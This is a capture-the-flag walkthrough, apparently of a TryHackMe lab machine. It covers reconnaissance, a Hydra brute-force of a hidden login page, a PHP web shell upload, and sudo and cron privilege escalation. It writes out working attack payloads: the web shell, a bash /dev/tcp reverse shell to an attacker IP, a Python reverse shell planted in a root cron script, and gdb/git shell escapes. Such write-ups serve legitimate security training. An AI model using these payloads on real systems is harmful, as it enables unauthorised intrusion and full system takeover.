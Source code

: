 recon
- nmap
```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
- gobuster: nothing interesting, just robots.txgt

- robots.txt
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```
visite `/admin-dir` you will find 2 files. `userid` which contain username and `credentials.txt` which contain passwords. this can be useful for brute forcing.

- ftp: Anonymous
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> ls ...
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
```
grab the file. it is containt a hidden web directory!!
```
kali@kali:~/THM/tartarus$ cat test.txt 
vsftpd test file
kali@kali:~/THM/tartarus$ cat yougotgoodeyes.txt 
/sUp3r-______
```
`/sUp3r-______` contains a login page. Let use hydra to brute force using `userid` and `credential.txt` as username and password
```
kali@kali:~/THM/tartarus$ hydra -t 64 -L userid -P credentials.txt $IP http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
```
user the credential obtained from hydra to log into `/sUp3r-s3cr3t/` note that you can upload files which will appreas at `/sUp3r-s3cr3t/images/uploads/`. I then try to upload a php srcipt which execute a os command base on a given argurment.
```php
<?php
echo "kurohat was herer\n"; system($_REQUEST['cmd']);
?>
```
now when I visite `sUp3r-s3cr3t/images/uploads/shell.php?cmd=whoami` it will return a output of `whoami`. I use it to do more recon on the server and grab user.txt.

after some recon with `whoami` and `ls /home` here is what I found
- /home: 3 directories
```
cleanup
d4rckh
thirtytwo
```
I then decided to spawn a reverse shell to make thing easy for me.
```http
GET /sUp3r-s3cr3t/images/uploads/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.11.14.220/6969+0>%261' HTTP/1.1
Host: 10.10.27.107
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.27.107/sUp3r-s3cr3t/images/uploads/
Connection: close
Cookie: PHPSESSID=7u6935nes7p327b4cgrpatqnng
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 0
```
I found a note for
```
www-data@ubuntu-xenial:/home$ cat thirtytwo/note.txt
cat thirtytwo/note.txt
Hey 32, the other day you were unable to clone my github repository. 
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
```
more digging and I found that there is a cronjob running as root. We might be able to use it to gain root access.
```
www-data@ubuntu-xenial:/home$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
< /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"   

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
cronjob is running as root, executing `/home/d4rckh/cleanup.py` which we dont have permission to write it since we still are a `www-data` user. I spawn tty shell so that I can runs more command:
```
www-data@ubuntu-xenial:/home/d4rckh$ python -c 'import pty;pty.spawn("/bin/bash");'
<e/d4rckh$ python -c 'import pty;pty.spawn("/bin/bash");'                    
www-data@ubuntu-xenial:/home/d4rckh$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```
okey, seem like we can execute `/var/www/gdb` as `thirtytwo`. Check GTFObin for more infor
```
$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit # privesc shell as thirtytwo
```
as you can see, we are now `thirtytwo`
```
$ whoami
whoami
thirtytwo
$ sudo -l
sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```
okey same old story, check `git` on **GTFObins** to learn how to privesc using `git`
```
$ sudo -u d4rckh /usr/bin/git help config
sudo -u d4rckh /usr/bin/git help config
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!/bin/bash
d4rckh@ubuntu-xenial:/var/www/html/sUp3r-s3cr3t/images/uploads$
```
now we are d4rckh!! as mentioned before, there is a corn job run as root which executing `cleanup.py`. Now let modify `cleanup.py` and make it spawn shell to our kali. Add the following python script to `cleanup.py`.
```py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.11.14.220",9696));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
BAM !! reverse shell should be up in 30 sec. grab root flag !!